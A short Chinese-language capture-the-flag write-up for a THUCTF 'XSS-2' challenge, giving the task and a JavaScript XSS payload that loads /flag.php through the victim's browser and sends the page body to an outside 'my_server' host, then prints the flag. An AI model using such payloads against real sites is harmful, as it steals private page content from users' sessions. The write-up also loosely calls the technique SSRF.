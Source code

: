 XSS-2 400 points
================

题意
-------------

The flag is in flag.php : ), read it using XSS, please.

http://host:port

解题步骤
-------------

一开始尝试和 [XSS1](XSS1.md) 一样的方法获取 Cookie 然后访问 `/flag.php` ，但是一直拿不到，怀疑是通过别的字段来判断是否为 `Admin` 。于是，采用 `SSRF(Server Side Request Forge)` 和 `XMLHttpRequest` 获取到了 `/flag.php` 中的信息。

```
var xhr = new XMLHttpRequest();
xhr.onload = function get() {
        var body = this.responseText;
        var xhr2 = new XMLHttpRequest();
        xhr2.open("GET", "http://my_server/"+escape(body));
        xhr2.send();
};
xhr.open("GET", "/flag.php", true);
xhr.send();
```

得到了 `THUCTF{YoU_G37_thE_PagE_c0Nten7_bY_XSS}` 。